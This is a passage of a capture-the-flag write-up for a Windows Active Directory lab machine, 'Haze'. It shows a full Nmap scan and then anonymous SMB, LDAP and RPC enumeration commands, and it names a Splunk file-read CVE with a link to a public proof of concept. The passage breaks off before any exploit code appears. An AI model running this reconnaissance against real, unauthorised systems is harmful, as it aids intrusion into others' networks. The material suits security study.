- Machhine Name: Haze
- OS Type: Windows
- Difficulty: Hard

### Port Scanning - Service & Version Enumeration

```php
# Nmap 7.95 scan initiated Tue Jun 24 19:26:21 2025 as: /usr/lib/nmap/nmap -sVC --open -p- -oN initial/nmap.out -vv 10.10.11.61
Nmap scan report for 10.10.11.61
Host is up, received echo-reply ttl 127 (0.22s latency).
Scanned at 2025-06-24 19:26:28 IST for 162s
Not shown: 65505 closed tcp ports (reset)
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-24 21:57:49Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.haze.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.haze.htb
| Issuer: commonName=haze-DC01-CA/domainComponent=haze
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:12:20
| Not valid after:  2026-03-05T07:12:20
| MD5:   db18:a1f5:986c:1470:b848:35ec:d437:1ca0
| SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f
| -----BEGIN CERTIFICATE-----
| MIIFxzCCBK+gAwIBAgITaQAAAAKwulKDkCsWNAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBCMRMwEQYKCZImiZPyLGQBGRYDaHRiMRQwEgYKCZImiZPyLGQBGRYEaGF6ZTEV
| MBMGA1UEAxMMaGF6ZS1EQzAxLUNBMB4XDTI1MDMwNTA3MTIyMFoXDTI2MDMwNTA3
| MTIyMFowGDEWMBQGA1UEAxMNZGMwMS5oYXplLmh0YjCCASIwDQYJKoZIhvcNAQEB
| BQADggEPADCCAQoCggEBAMVEY8/MHbIODtBJbIisSbPresil0O6vCchYn7gAIg90
| kJVVmM/KnsY8tnT6jMRGWQ/cJPpXQ/3jFFK1l40iDHxa5zfWLz+RS/ZRwkQH9/UK
| biVcpiAkxgDsvBpqVk5AQiSPo3cOkiFAAS31jjfUJk6YP9Cb5q1dJTlo39TlTnyZ
| h794W7ykOJTKLLflQ1gY5xtbrc3XltNGnKTh28fjX7GtDfqtAq3tT5jU7pt9kKfu
| 0PdFjwM0IHjvxfMvQQD3kZnwIxMFCPNgS5T1xO86UnrWw0kVvWp1gOMA7lU5YZr7
| u81y2pV734gwCnZzWOe0xZrvUzFgIHtGmfj505znnf0CAwEAAaOCAt4wggLaMC8G
| CSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBvAG4AdAByAG8AbABsAGUAcjAd
| BgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEwDgYDVR0PAQH/BAQDAgWgMHgG
| CSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA4GCCqGSIb3DQMEAgIAgDAL
| BglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBglghkgBZQME
| AQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFCjRdOU7YKvR8L/epppe
| wGlE7zYrMB8GA1UdIwQYMBaAFBfPKa3j+shDCWYQcAiLgjtywmU+MIHEBgNVHR8E
| gbwwgbkwgbaggbOggbCGga1sZGFwOi8vL0NOPWhhemUtREMwMS1DQSxDTj1kYzAx
| LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
| Tj1Db25maWd1cmF0aW9uLERDPWhhemUsREM9aHRiP2NlcnRpZmljYXRlUmV2b2Nh
| dGlvbkxpc3Q/YmFzZT9vYmplY3RDbGFzcz1jUkxEaXN0cmlidXRpb25Qb2ludDCB
| uwYIKwYBBQUHAQEEga4wgaswgagGCCsGAQUFBzAChoGbbGRhcDovLy9DTj1oYXpl
| LURDMDEtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNl
| cnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9aGF6ZSxEQz1odGI/Y0FDZXJ0aWZp
| Y2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwOQYD
| VR0RBDIwMKAfBgkrBgEEAYI3GQGgEgQQ3PAm6jow6ke+SMbceyLBfYINZGMwMS5o
| YXplLmh0YjANBgkqhkiG9w0BAQsFAAOCAQEAO7h/k9EY8RlqV48OvhS9nUZtGI7e
| 9Dqja1DpS+H33Z6CYb537w7eOkIWZXNP45VxPpXai8IzPubc6rVHKMBq4DNuN+Nu
| BjOvbQ1J4l4LvfB1Pj/W2nv6VGb/6/iDb4ul6UdHK3/JMIKM3UIbpWVgmNIx70ae
| /0JJP2aG3z2jhO5co4ncUQ/xpe3WlWGTl9qcJ+FkZZAPkZU6+fgz/McKxO9I7EHv
| Y7G19nhuwF6Rh+w2XYrJs2/iFU6pRgQPg3yon5yUzcHNX8GwyEikv0NGBkmMKwAI
| kE3gssbluZx+QYPdAE4pV1k5tbg/kLvBePIXVKspHDd+4Wg0w+/6ivkuhQ==
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          syn-ack ttl 127 Splunkd httpd
|_http-server-header: Splunkd
|_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
8088/tcp  open  ssl/http      syn-ack ttl 127 Splunkd httpd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/localityName=San Francisco/emailAddress=support@splunk.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:   82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b
| SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
8089/tcp  open  ssl/http      syn-ack ttl 127 Splunkd httpd
|_http-server-header: Splunkd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/localityName=San Francisco/emailAddress=support@splunk.com
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-03-05T07:29:08
| Not valid after:  2028-03-04T07:29:08
| MD5:   82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b
| SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2
| -----BEGIN CERTIFICATE-----
| MIIDMjCCAhoCCQCtNoIdTvT1CjANBgkqhkiG9w0BAQsFADB/MQswCQYDVQQGEwJV
| UzELMAkGA1UECAwCQ0ExFjAUBgNVBAcMDVNhbiBGcmFuY2lzY28xDzANBgNVBAoM
| BlNwbHVuazEXMBUGA1UEAwwOU3BsdW5rQ29tbW9uQ0ExITAfBgkqhkiG9w0BCQEW
| EnN1cHBvcnRAc3BsdW5rLmNvbTAeFw0yNTAzMDUwNzI5MDhaFw0yODAzMDQwNzI5
| MDhaMDcxIDAeBgNVBAMMF1NwbHVua1NlcnZlckRlZmF1bHRDZXJ0MRMwEQYDVQQK
| DApTcGx1bmtVc2VyMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA3SOu
| w9/K07cQT0p+ga9FjWCzI0Os/MVwpjOlPQ/o1uA/VSoNiweXobD3VBLngqfGQlAD
| VGRWkGdD3xS9mOknh9r4Dut6zDyUdKvgrZJVoX7EiRsHhXAr9HRgqWj7khQLz3n9
| fjxxdJkXtGZaNdonWENSeb93HfiYGjSWQJMfNdTd2lMGMDMC4JdydEyGEHRAMNnZ
| y/zCOSP97yJOSSBbr6IZxyZG934bbEH9d9r0g/I4roDlzZFFBlGi542s+1QJ79FR
| IUrfZh41PfxrElITkFyKCJyU5gfPKIvxwDHclE+zY/ju2lcHJMtgWNvF6s0S9ic5
| oxg0+Ry3qngtwd4yUQIDAQABMA0GCSqGSIb3DQEBCwUAA4IBAQCbT8LwPCoR7I41
| dS2ZjVjntxWHf/lv3MgumorerPBufJA4nw5Yq1gnAYruIkAkfGS7Dy09NL2+SwFy
| NKZa41K6OWst/sRP9smtpY3dfeNu5ofTP5oLEbW2fIEuG4fGvkQJ0SQOPOG71tfm
| ymVCjLlMYMU11GPjfb3CpVh5uLRhIw4btQ8Kz9aB6MiBomyiD/MqtQgA25thnijA
| gHYEzB3W6FKtWtjmPcqDugGs2WU6UID/fFZpsp+3h2QLGN5e+e1OTjoIbexbJ/S6
| iRjTy6GUjsrHtHM+KBjUFvUvHi27Ns47BkNzA1gedvRYrviscPCBkphjo9x0qDdj
| 3EhgaH2L
|_-----END CERTIFICATE-----
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry 
|_/
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
58076/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64916/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
64917/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64919/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64937/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64951/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
64969/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
65034/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 46282/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 43344/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 26877/udp): CLEAN (Failed to receive data)
|   Check 4 (port 16354/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-06-24T21:58:49
|_  start_date: N/A
|_clock-skew: 7h59m55s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 24 19:29:10 2025 -- 1 IP address (1 host up) scanned in 168.71 seconds

```

as we know we are dealing with windows AD box, let’s add the domain and DC in /etc/hosts file 

```php
echo "10.10.11.61 haze.htb dc01.haze.htb" | sudo tee -a /etc/hosts
```

## Enumeration

### Port 139,445/SMB

smb port is open and it is looks as the windows box so we first try to find open shares, or null session to shares

```php
smbclient -L //10.10.11.61 -N
```



then i ran `enum4linux` but didn’t find anything useful, we just found Domain Name and SID let’s keep this information in our back-pocket

```php
Domain Name: Haze
Domain Sid: S-1-5-21-323145914-28650650-2368316563
```

nice, let’s move to another service/port

### Port 389/LDAP

let’s check if the LDAP allows anonymous binding so we can try to get more information i use ldapsearch for it

```php
ldapsearch -H ldap://10.10.11.61 -x -b "DC=haze,DC=htb"
```



we need valid credentials for it, let’s check MSRPC 

### Port 135/MSRPC

we can try to enumerate users, groups using rpcclient if it allows anonymous login and permissions to view the users

```php
rpcclient -U '' -N 10.10.11.61
```

we logged in successfully, but got error while running - `enumdomusers` 



### Splunk - Application, Port 8000,8088,8089

let’s first open the port 8000



then i’ll try to open 8089 port 



this leaks the version of the splunk application running on machine quick google search reveals that it is vulnerable to LFI (CVE-2024-36991)

and i found PoC for it  → https://github.com/Mr-xn/CVE-2024-36991

```php
